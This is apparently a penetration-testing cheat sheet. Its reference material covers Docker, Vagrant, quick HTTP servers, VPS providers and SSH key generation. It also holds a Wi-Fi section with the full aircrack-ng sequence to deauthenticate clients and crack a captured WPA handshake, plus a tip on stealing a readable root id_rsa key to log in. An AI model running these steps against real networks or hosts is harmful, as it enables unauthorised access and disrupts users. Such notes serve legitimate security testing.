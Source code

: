 - Docker Engine = Docker Engine is the main component of container virtualization. The software provides the interface between host resources and running containers. Any system that has Docker Engine installed can use Docker containers.
- Vagrant 
   - Vagrant is a tool that can create, configure and manage virtual machines or virtual machine environments. 
   - The VMs are not created and configured manually but are described in code in a Vagrantfile.
   - It tries to simplify the software configuration management of virtualization in order to increase development productivity.

### HTTP Web Server

Start a HTTP Web Server:
```bash
php -S 0.0.0.0:8080 # PHP
-
python -m http.server 8080 # Python
-
npm install http-server -g # NodeJS
http-server -p 8080  # NodeJS
```
### Wi-Fi

```bash
airmon-ng # List all the available network Interfaces
airmon-ng start wlan0  # Monitor the desired network interface
airodump-ng wlan0mon # Capture the network interface traffic
airodump-ng --bssid 09:98:98:98:98:98 -c 1 --write psk wlan0mon # Capture required data from the specific network
aireplay-ng --deauth 100 -a 09:98:98:98:98:98 wlan0mon # De-authenticate the client
ls # Verify the captured handshake file
airmon-ng stop wlan0mon # Stop Wi-Fi interface monitoring
aircrack-ng -w wordlist psk*.cap # Cracking password from the captured handshake file
```

### Service Provider and Key Generation

- https://www.vultr.com/products/cloud-compute/
- https://www.linode.com/pricing/
- https://www.digitalocean.com/pricing
- https://onehostcloud.hosting/

File to SSH => /home/user/.ssh/id_rsa or /root/.ssh/id_rsa
```
vim id_rsa
chmod 600 id_rsa
ssh user@10.10.10.10 -i id_rsa # If we can read the /root/.ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it
```

Generation Private and Public keys for SSH:
```
ssh-keygen -t rsa -b 4096 -f vps-ssh
------
ssh-keygen -f key # New key with ssh-keygen and the -f flag to specify the output file:
```
